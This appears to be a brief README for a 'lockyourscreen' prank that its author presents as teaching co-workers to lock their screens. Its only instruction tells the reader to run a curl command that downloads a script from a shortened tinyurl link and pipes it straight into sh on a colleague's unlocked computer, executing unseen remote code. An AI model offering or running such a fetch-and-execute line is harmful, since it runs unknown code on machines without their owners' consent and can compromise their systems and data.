 lockyourscreen
==============

This is used to teach co-workers why they should always lock their screen

Run this for pwnage:

```
```  curl -L http://tinyurl.com/davidhassel | sh
```
